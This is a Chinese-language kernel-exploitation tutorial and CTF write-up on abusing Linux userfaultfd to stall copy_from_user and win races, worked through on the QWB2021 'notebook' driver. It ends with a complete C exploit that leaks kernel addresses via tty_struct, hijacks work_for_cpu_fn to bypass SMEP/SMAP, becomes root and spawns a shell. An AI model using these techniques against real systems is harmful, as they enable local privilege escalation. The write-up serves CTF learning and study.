


# userfaultfd 的使用

## 概述

userfaultfd 并不是一种攻击的名字，它是 Linux 提供的一种让用户自己处理缺页异常的机制，初衷是为了提升开发灵活性，在 kernel pwn 中常被用于提高条件竞争的成功率。比如在如下的操作时

```cpp
copy_from_user(kptr, user_buf, size);
```

如果在进入函数后，实际拷贝开始前线程被中断换下 CPU，别的线程执行，修改了 kptr 指向的内存块的所有权（比如 kfree 掉了这个内存块），然后再执行拷贝时就可以实现 UAF。这种可能性是比较小的，但是如果 user_buf 是一个 mmap 的内存块，并且我们为它注册了 userfaultfd，那么在拷贝时出现缺页异常后此线程会先执行我们注册的处理函数，在处理函数结束前线程一直被暂停，结束后才会执行后面的操作，大大增加了竞争的成功率。

## 使用方法

然后简单说一下为内存块注册 userfaultfd 的方法，比较详细介绍的可以参考 [man page](https://man7.org/linux/man-pages/man2/userfaultfd.2.html)。ha1vk 师傅提供了一个模板，如下

```cpp
void ErrExit(char* err_msg)
{
	puts(err_msg);
	exit(-1);
}

void RegisterUserfault(void *fault_page,void *handler)
{
	pthread_t thr;
	struct uffdio_api ua;
	struct uffdio_register ur;
	uint64_t uffd  = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);
	ua.api = UFFD_API;
	ua.features = 0;
	if (ioctl(uffd, UFFDIO_API, &ua) == -1)
		ErrExit("[-] ioctl-UFFDIO_API");

	ur.range.start = (unsigned long)fault_page; //我们要监视的区域
	ur.range.len   = PAGE_SIZE;
	ur.mode        = UFFDIO_REGISTER_MODE_MISSING;
	if (ioctl(uffd, UFFDIO_REGISTER, &ur) == -1) //注册缺页错误处理
        //当发生缺页时，程序会阻塞，此时，我们在另一个线程里操作
		ErrExit("[-] ioctl-UFFDIO_REGISTER");
	//开一个线程，接收错误的信号，然后处理
	int s = pthread_create(&thr, NULL,handler, (void*)uffd);
	if (s!=0)
		ErrExit("[-] pthread_create");
}
```

我们在注册的时候，只要使用类似于

```cpp
RegisterUserfault(mmap_buf, handler);
```

的操作就可以把 handler 函数绑定到 mmap_buf，当 mmap_buf 出现缺页异常时就会调用 handler 来处理。

然后比较重要的是 handler 的写法，开头是一些模板化的操作

```cpp
void* userfaultfd_leak_handler(void* arg)
{
	struct uffd_msg msg;
	unsigned long uffd = (unsigned long) arg;
	struct pollfd pollfd;
	int nready;
	pollfd.fd = uffd;
	pollfd.events = POLLIN;
	nready = poll(&pollfd, 1, -1);
```

定义一个 uffd_msg 类型的结构体在未来接受消息。

需要一个 pollfd 类型的结构体来提供轮询的操作，其 fd 设置为传入的 arg，events 设置为 POLLIN。然后执行 `poll(&pollfd, 1, -1);` 来进行轮询，这个函数会一直进行轮询，直到出现缺页错误。

然后需要处理缺页

```cpp
	sleep(3);
	if (nready != 1)
	{
		ErrExit("[-] Wrong poll return val");
	}
	nready = read(uffd, &msg, sizeof(msg));
	if (nready <= 0)
	{
		ErrExit("[-] msg err");
	}

	char* page = (char*) mmap(NULL, PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
	if (page == MAP_FAILED)
	{
		ErrExit("[-] mmap err");
	}
	struct uffdio_copy uc;
	// init page
	memset(page, 0, sizeof(page));
	uc.src = (unsigned long) page;
	uc.dst = (unsigned long) msg.arg.pagefault.address & ~(PAGE_SIZE - 1);
	uc.len = PAGE_SIZE;
	uc.mode = 0;
	uc.copy = 0;
	ioctl(uffd, UFFDIO_COPY, &uc);
	puts("[+] leak handler done");
	return NULL;
}
```

注意我在开头加入了 sleep 操作，在 poll 结束返回时就代表着出现了缺页了，此时 sleep 就可以之前说到的暂停线程的效果。然后进行一些判断什么的，并 mmap 一个页给缺页的页，都是模板化的操作。此处 mmap 的内存在缺页时有自己的处理函数，所以不会一直套娃地缺页下去。

我们这里在遇到返回值错误的时候就直接错误退出了，在工程上应该会讲究一些，还会在外面套一个大死循环什么的，这里就不多说了，毕竟我们只需要利用它把线程暂停就可以了。

## 例题

### QWB2021-notebook

这里以强网杯 2021 的 notebook 一题为例解释 userfaultfd 在条件竞争中的使用

#### 分析

首先看一下启动脚本

```shell
#!/bin/sh
stty intr ^]
qemu-system-x86_64 \
    -m 64M \
    -kernel bzImage \
    -initrd rootfs.cpio \
    -append "loglevel=3 console=ttyS0 oops=panic panic=1 kaslr" \
    -nographic -net user -net nic -device e1000 \
    -smp cores=2,threads=2 -cpu kvm64,+smep,+smap \
    -monitor /dev/null 2>/dev/null -s
```

append 时把 loglevel 开到了 3，建议把这个去掉，调试起来会好判断一点（可以看到驱动 printk 的内容）。

然后 run 一下，发现启动要 20 秒左右，非常的慢，让我很不爽，我也不知道具体是什么造成的，反正和 etc 文件夹里面的东西有关，打包的时候可以先不把这个文件夹打进去，可以少浪费一点时间。

程序的流程比较简单，也没有去符号，这里就不分析了。程序主要的漏洞就是条件竞争造成的 UAF。

首先先说一下读写锁，其性质为

* 当写锁被取走时，所有取锁操作被阻塞
* 当读锁被取走时，取写锁的操作被阻塞

恰当的使用读写锁可以在提高程序性能的前提下保证线程同步。题目中的驱动程序在 noteedit 和 noteadd 操作中取了读锁，仅在 notedel 操作中取了写锁。其余操作都没有锁保护。而两个取读锁的操作实际上都有写操作，但是他们又是可以并发的，这样就很可能存在条件竞争的漏洞。



这是 noteedit 操作的部分代码，这里的 krealloc 并未对 newsize 做任何限制。同时并没有及时更新 note 指针，反而在更新前加入了 copy_from_user 的操作，那么就可以考虑通过 userfaultfd 操作卡死当前线程，避免 note 的更新，这样就可以保留一个被 kfree 的 slab 的指针。这样操作的问题是 note 的 size 被更新为了 0，之后 read 和 write 操作就无法读写数据了。



不过在 add 操作时，也类似的在更新 size 前加入了 copy_from_user 的操作，我们也可以把线程卡死在这里，把 size 改为 0x60。

因此，我们可以做到

* 申请任意大小的 slab。虽然 add 操作限制了 size 最大为 0x60，但是通过 edit 可以 krealloc 出任意大小的 slab
* UAF 任意大小的 slab。不过只能控制前 0x60 字节的数据

#### 利用

那么利用方法就是，首先通过 UAF 实现对一个 tty_struct 的前 0x60 字节的任意读写，leak 出内核地址。

然后通过利用这个 tty_struct，我们可以可以做 rop 来提权，不过长亭在 WP 中提到了一个很有趣的 trick，[原文链接](https://zhuanlan.zhihu.com/p/385645268)。这里引用原文

> 控制 rip 之后，下一步就是绕过 SMEP 和 SMAP 了，这里介绍一种在完全控制了 tty 对象的情况下非常好用的 trick，完全不用 ROP，非常简单，且非常稳定（我们的 exploit 在利用成功和可以正常退出程序，甚至关机都不会触发 kernel panic）。
>
> 内核中有这样的一个函数：
>
> 
>
> 其编译后大概长这样：
>
> 
>
> 该函数位于 workqueue 机制的实现中，只要是开启了多核支持的内核 （CONFIG_SMP）都会包含这个函数的代码。不难注意到，这个函数非常好用，只要能控制第一个参数指向的内存，即可实现带一个任意参数调用任意函数，并把返回值存回第一个参数指向的内存的功能，且该 "gadget" 能干净的返回，执行的过程中完全不用管 SMAP、SMEP 的事情。由于内核中大量的 read / write / ioctl 之类的实现的第一个参数也都恰好是对应的对象本身，可谓是非常的适合这种场景了。考虑到我们提权需要做的事情只是 commit_creds(prepare_kernel_cred(0))，完全可以用两次上述的函数调用原语实现。（如果还需要禁用 SELinux 之类的，再找一个任意地址写 0 的 gadget 即可，很容易找）

利用这个原语就可以比较容易的任意函数执行了。

#### 碰到的问题

笔者在解题过程中碰到了几个问题，这里也和大家分享一下。

1. slub 的机制让我有点迷惑，他似乎不是后进先出的，所以在 open ptmx 的时候需要多次 open，我通过魔数来判断是否申请到了我们 UAF 的 slab。（笔者不是特别了解 slub 的实现，希望有了解的师傅能补充一下这里）

2.  leak 中存在一个小问题，leak 时使用的数据是 tty_struct 的虚表，这张虚表可能是 ptm_unix98_ops，也可能是 pty_unix98_ops。不过两者在地址上只差了 0x120，所以特判一下也可以得到正确值，也就是

   ```cpp
   if ((ptm_unix98_ops_addr & 0xFFF) == 0x320) ptm_unix98_ops_addr += 0x120;
   ```

3. 即便修改了虚表后，调用 write 也无法执行 work_for_cpu_fn 函数的问题。我一直以为这里 write 的逻辑，用面向对象的思维来看就是直接调用 tty_struct 类重写的 write 虚函数，类似于 _IO_FILE 劫持虚表中的 write 指针后 write 就会直接执行劫持的函数的逻辑了。但是实际上不是这样的，在掉用虚表中函数指针前会先调用 tty_write 函数

   ```cpp
   static ssize_t tty_write(struct file *file, const char __user *buf,
   						size_t count, loff_t *ppos)
   {
   	struct tty_struct *tty = file_tty(file);
    	struct tty_ldisc *ld;
   	ssize_t ret;
   
   	if (tty_paranoia_check(tty, file_inode(file), "tty_write"))
   		return -EIO;
   	if (!tty || !tty->ops->write ||	tty_io_error(tty))
   			return -EIO;
   	/* Short term debug to catch buggy drivers */
   	if (tty->ops->write_room == NULL)
   		tty_err(tty, "missing write_room method\n");
   	ld = tty_ldisc_ref_wait(tty);
   	if (!ld)
   		return hung_up_tty_write(file, buf, count, ppos);
   	if (!ld->ops->write)
   		ret = -EIO;
   	else
   		ret = do_tty_write(ld->ops->write, tty, file, buf, count);
   	tty_ldisc_deref(ld);
   	return ret;
   }
   ```

   然后到 do_tty_write 中再进行用户态数据的拷贝，最后才实际调用函数指针

   ```cpp
   static inline ssize_t do_tty_write(
   	ssize_t (*write)(struct tty_struct *, struct file *, const unsigned char *, size_t),
   	struct tty_struct *tty,
   	struct file *file,
   	const char __user *buf,
   	size_t count)
   {
   	ssize_t ret, written = 0;
   	unsigned int chunk;
   
   	ret = tty_write_lock(tty, file->f_flags & O_NDELAY);
   	if (ret < 0)
   		return ret;
   
   	/*
   	 * We chunk up writes into a temporary buffer. This
   	 * simplifies low-level drivers immensely, since they
   	 * don't have locking issues and user mode accesses.
   	 *
   	 * But if TTY_NO_WRITE_SPLIT is set, we should use a
   	 * big chunk-size..
   	 *
   	 * The default chunk-size is 2kB, because the NTTY
   	 * layer has problems with bigger chunks. It will
   	 * claim to be able to handle more characters than
   	 * it actually does.
   	 *
   	 * FIXME: This can probably go away now except that 64K chunks
   	 * are too likely to fail unless switched to vmalloc...
   	 */
   	chunk = 2048;
   	if (test_bit(TTY_NO_WRITE_SPLIT, &tty->flags))
   		chunk = 65536;
   	if (count < chunk)
   		chunk = count;
   
   	/* write_buf/write_cnt is protected by the atomic_write_lock mutex */
   	if (tty->write_cnt < chunk) {
   		unsigned char *buf_chunk;
   
   		if (chunk < 1024)
   			chunk = 1024;
   
   		buf_chunk = kmalloc(chunk, GFP_KERNEL);
   		if (!buf_chunk) {
   			ret = -ENOMEM;
   			goto out;
   		}
   		kfree(tty->write_buf);
   		tty->write_cnt = chunk;
   		tty->write_buf = buf_chunk;
   	}
   
   	/* Do the write .. */
   	for (;;) {
   		size_t size = count;
   		if (size > chunk)
   			size = chunk;
   		ret = -EFAULT;
   		if (copy_from_user(tty->write_buf, buf, size))
   			break;
   		ret = write(tty, file, tty->write_buf, size);
   		if (ret <= 0)
   			break;
   		written += ret;
   		buf += ret;
   		count -= ret;
   		if (!count)
   			break;
   		ret = -ERESTARTSYS;
   		if (signal_pending(current))
   			break;
   		cond_resched();
   	}
   	if (written) {
   		tty_update_time(&file_inode(file)->i_mtime);
   		ret = written;
   	}
   out:
   	tty_write_unlock(tty);
   	return ret;
   }
   ```

   这一路上要经过一些检测和各种各样操作，一开始我使用

   ```c++
   write(tty_fd, 0, 0);
   ```

   这样的方法调用，一下子就会挂在 copy_from_user 上，此处需要提供一个正确的 buf，和一定的长度，比如

   ```cpp
   write(tty_fd, buf_a, 1);
   ```

   这样就可以调用到劫持的 work_for_cpu_fn 了。

   由于 work_for_cpu_fn 的参数由 write 调用的第一个参数决定，也就是 tty_struct 本身，那么被调函数偏移在 0x20，这个没什么问题

   ```cpp
   buf_tty[4] = prepare_kernel_cred_addr;
   ```

   这样就可以了，然后第一个参数在偏移 0x28 处，也就是

   ```cpp
   buf_tty[5] = 0;
   ```

   看似没什么问题，但是之后执行到 work_for_cpu_fn 时偏移 0x28 会莫名其妙的变成 1，导致执行 kernel_prepare_cred 时出错，估计是 tty_write 和 do_tty_write 操作中对此处的成员变量进行了操作（此成员变量是一个信号量，这里可能是为了线程同步之类的有一点改变）。

   如果用虚表做 ROP 的话不需要考虑对别的变量的修改，因为不需要考虑参数的问题，但是用 work_for_cpu_fn 来进行函数调用时就需要小心一点了，所以最后我还是根据长亭的 WP 换成了 ioctl 来触发。类似的，在调用函数指针前也先调用了 tty_ioctl，这个函数是一个较为巨大的 switch 结构，所以给予的 cmd 的值要比较小心，我尝试了一些随机数都无法达到效果，最后还是根据长亭 WP 用的 233 实现的，也就是

   ```cpp
   ioctl(tty_fd, 233, 233);
   ```

   这样调用。看来 233 这个数确实还是有一些魔力。

#### exp

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <syscall.h>
#include <poll.h>
#include <unistd.h>
#include <pthread.h>
#include <string.h>
#include <stdint.h>
#include <linux/userfaultfd.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <assert.h>

#define PAGE_SIZE 0x1000
#define TTY_STRUCT_SZIE 0x2E0

size_t work_for_cpu_fn_off = 0xffffffff8949eb90 - 0xffffffff8a28e440;
size_t prepare_kernel_cred_off = 0xffffffffa14a9ef0 - 0xffffffffa228e440;
size_t commit_creds_off = 0xffffffffa14a9b40 - 0xffffffffa228e440;
size_t kernel_base;

struct userarg
{
	size_t idx;
	size_t size;
	void* buf;
};

int note_fd;
void* stuck_mapped_memory;

void ErrExit(char* err_msg)
{
	puts(err_msg);
	exit(-1);
}

void RegisterUserfault(void *fault_page, void* handler)
{
	pthread_t thr;
	struct uffdio_api ua;
	struct uffdio_register ur;
	uint64_t uffd  = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);
	ua.api = UFFD_API;
	ua.features    = 0;
	if (ioctl(uffd, UFFDIO_API, &ua) == -1)
		ErrExit("[-] ioctl-UFFDIO_API");

	ur.range.start = (unsigned long)fault_page; //我们要监视的区域
	ur.range.len   = PAGE_SIZE;
	ur.mode        = UFFDIO_REGISTER_MODE_MISSING;
	if (ioctl(uffd, UFFDIO_REGISTER, &ur) == -1) //注册缺页错误处理，当发生缺页时，程序会阻塞，此时，我们在另一个线程里操作
		ErrExit("[-] ioctl-UFFDIO_REGISTER");
	//开一个线程，接收错误的信号，然后处理
	int s = pthread_create(&thr, NULL,handler, (void*)uffd);
	if (s!=0)
		ErrExit("[-] pthread_create");
}

void noteadd(size_t idx, size_t size, void* buf)
{
	struct userarg notearg;
	notearg.idx = idx;
	notearg.size = size;
	notearg.buf = buf;
	ioctl(note_fd, 0x100, &notearg);
}

void notegift(void* buf)
{
	struct userarg notearg;
	notearg.idx = 0;
	notearg.size = 0;
	notearg.buf = buf;
	ioctl(note_fd, 0x64, &notearg);
}

void notedel(size_t idx)
{
	struct userarg notearg;
	notearg.idx = idx;
	notearg.size = 0;
	notearg.buf = NULL;
	ioctl(note_fd, 0x200, &notearg);
}

void noteedit(size_t idx, size_t size, void* buf)
{
	struct userarg notearg;
	notearg.idx = idx;
	notearg.size = size;
	notearg.buf = buf;
	ioctl(note_fd, 0x300, &notearg);
}

void OpenNote()
{
	note_fd = open("/dev/notebook", O_RDWR);
	if (note_fd < 0)
	{
		ErrExit("[-] err in open notebook device");
	}
}

void* userfaultfd_sleep3_handler(void* arg)
{
	struct uffd_msg msg;
	unsigned long uffd = (unsigned long) arg;
	puts("[+] sleep3 handler created");
	int nready;
	struct pollfd pollfd;
	pollfd.fd = uffd;
	pollfd.events = POLLIN;
	nready = poll(&pollfd, 1, -1);
	puts("[+] sleep3 handler unblocked");
	sleep(3);
	if (nready != 1)
	{
		ErrExit("[-] Wrong poll return val");
	}
	nready = read(uffd, &msg, sizeof(msg));
	if (nready <= 0)
	{
		ErrExit("[-] msg err");
	}

	char* page = (char*) mmap(NULL, PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
	if (page == MAP_FAILED)
	{
		ErrExit("[-] mmap err");
	}
	struct uffdio_copy uc;
	// init page
	memset(page, 0, sizeof(page));
	uc.src = (unsigned long) page;
	uc.dst = (unsigned long) msg.arg.pagefault.address & ~(PAGE_SIZE - 1);
	uc.len = PAGE_SIZE;
	uc.mode = 0;
	uc.copy = 0;
	ioctl(uffd, UFFDIO_COPY, &uc);
	puts("[+] sleep3 handler done");
	return NULL;
}

void* userfaultfd_stuck_handler(void* arg)
{
	struct uffd_msg msg;
	unsigned long uffd = (unsigned long) arg;
	puts("[+] stuck handler created");
	int nready;
	struct pollfd pollfd;
	pollfd.fd = uffd;
	pollfd.events = POLLIN;
	nready = poll(&pollfd, 1, -1);
	puts("[+] stuck handler unblocked");
	pause();
	if (nready != 1)
	{
		ErrExit("[-] Wrong poll return val");
	}
	nready = read(uffd, &msg, sizeof(msg));
	if (nready <= 0)
	{
		ErrExit("[-] msg err");
	}

	char* page = (char*) mmap(NULL, PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
	if (page == MAP_FAILED)
	{
		ErrExit("[-] mmap err");
	}
	struct uffdio_copy uc;
	// init page
	memset(page, 0, sizeof(page));
	uc.src = (unsigned long) page;
	uc.dst = (unsigned long) msg.arg.pagefault.address & ~(PAGE_SIZE - 1);
	uc.len = PAGE_SIZE;
	uc.mode = 0;
	uc.copy = 0;
	ioctl(uffd, UFFDIO_COPY, &uc);
	puts("[+] stuck handler done");
	return NULL;
}

void* edit_thread(int idx)
{
	puts("[+] edit thread start!");
	noteedit(idx, 0, stuck_mapped_memory);
	puts("[+] edit thread end!"); // won't reach here
	return NULL;
}

void* add_thread(int idx)
{
	puts("[+] add thread start!");
	noteadd(idx, 0x60, stuck_mapped_memory);
	puts("[+] add thread end!"); // won't reach here
	return NULL;
}

char buf_a[0x500] = {"aaa"};
size_t buf_tty[0x100], buf_fake_table[0x500];

int main()
{
	int pid;
	int tty_fd;

	stuck_mapped_memory = mmap(NULL, PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
	RegisterUserfault(stuck_mapped_memory, userfaultfd_stuck_handler);

	OpenNote();

	noteadd(0, 0x60, buf_a);
	noteadd(1, 0x60, buf_a);
	noteedit(1, 0x500, buf_a);
	noteedit(0, TTY_STRUCT_SZIE, buf_a);
	write(note_fd, buf_a, 0);


	pthread_t thr_edit, thr_add;
	pthread_create(&thr_edit, NULL, edit_thread, 0);
	sleep(1);
	pthread_create(&thr_add, NULL, add_thread, 0);
	sleep(1);
	puts("ready to open ptmx");
	for (int i = 0; i < 20; i++)
	{
		tty_fd = open("/dev/ptmx", O_RDWR);
		if (tty_fd < 0)
		{
			ErrExit("[-] ptmx open failed!");
		}
		read(note_fd, buf_tty, 0);
		if (buf_tty[0] == 0x100005401)
		{
			printf("[+] tty_struct found! fd = %d\n", tty_fd);
			break; // tty_struct used our slab
		}
	}
	if (buf_tty[0] != 0x100005401)
	{
		ErrExit("[-] leak failed");
	}

	size_t ptm_unix98_ops_addr = buf_tty[3];
	if ((ptm_unix98_ops_addr & 0xFFF) == 0x320) ptm_unix98_ops_addr += 0x120;
	size_t work_for_cpu_fn_addr =  work_for_cpu_fn_off + ptm_unix98_ops_addr;
	size_t tty_struct_addr = buf_tty[10] - 0x50;
	size_t commit_creds_addr = commit_creds_off + ptm_unix98_ops_addr;
	size_t prepare_kernel_cred_addr = prepare_kernel_cred_off + ptm_unix98_ops_addr;
	kernel_base = prepare_kernel_cred_addr - 0xA9EF0;

	printf("[+] ptm_unix98_ops addr leaked, addr: 0x%lx\n", ptm_unix98_ops_addr);
	printf("[+] work_for_cpu_fn addr leaked, addr: 0x%lx\n", work_for_cpu_fn_addr);
	printf("[+] prepare_kernel_cred addr leaked, addr: 0x%lx\n", prepare_kernel_cred_addr);
	printf("[+] tty_struct addr leaked, addr: 0x%lx\n", tty_struct_addr);

	size_t buf_gift[0x100];
	notegift(buf_gift);
	size_t note_0_addr = buf_gift[0 * 2];
	size_t note_1_addr = buf_gift[1 * 2];
	assert(note_0_addr == tty_struct_addr);
	printf("[+] note_1 addr leaked, addr: 0x%lx\n", note_1_addr);

	buf_tty[0] = 0x100005401;
	buf_tty[3] = note_1_addr;
	buf_tty[4] = prepare_kernel_cred_addr;
	buf_tty[5] = 0;
	write(note_fd, buf_tty, 0); // write to tty_struct

	buf_fake_table[7] = work_for_cpu_fn_addr;
	buf_fake_table[10] = work_for_cpu_fn_addr;
	buf_fake_table[12] = work_for_cpu_fn_addr;
	write(note_fd, buf_fake_table, 1);

	// write(tty_fd, buf_a, 1);
	ioctl(tty_fd, 233, 233);

	read(note_fd, buf_tty, 0);
	printf("[+] prepare_kernel_cred finished, return 0x%lx\n", buf_tty[6]);

	buf_tty[0] = 0x100005401;
	buf_tty[3] = note_1_addr;
	buf_tty[4] = commit_creds_addr;
	buf_tty[5] = buf_tty[6];
	write(note_fd, buf_tty, 0);
	sleep(1);

	// write(tty_fd, buf_a, 1);
	ioctl(tty_fd, 233, 233);

	printf("now uid = %d\n", getuid());

	if (getuid() == 0)
	{
		puts("[+] root now!");
		system("/bin/sh");
	}
	else
	{
		exit(-1);
	}

	return 0;
}
```


## Reference

> [linux kernel pwn学习之条件竞争(二)userfaultfd](https://blog.csdn.net/seaaseesa/article/details/104650794?utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromBaidu%7Edefault-6.control&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromBaidu%7Edefault-6.control)
>
> [https://zhuanlan.zhihu.com/p/385645268](https://zhuanlan.zhihu.com/p/385645268)
>
> [https://www.cjovi.icu/WP/1455.html](https://www.cjovi.icu/WP/1455.html)
>
> [https://www.cjovi.icu/WP/1468.html](https://www.cjovi.icu/WP/1468.html)
>
> [从内核到用户空间(1) — 用户态缺页处理机制 userfaultfd 的使用](http://blog.jcix.top/2018-10-01/userfaultfd_intro/)

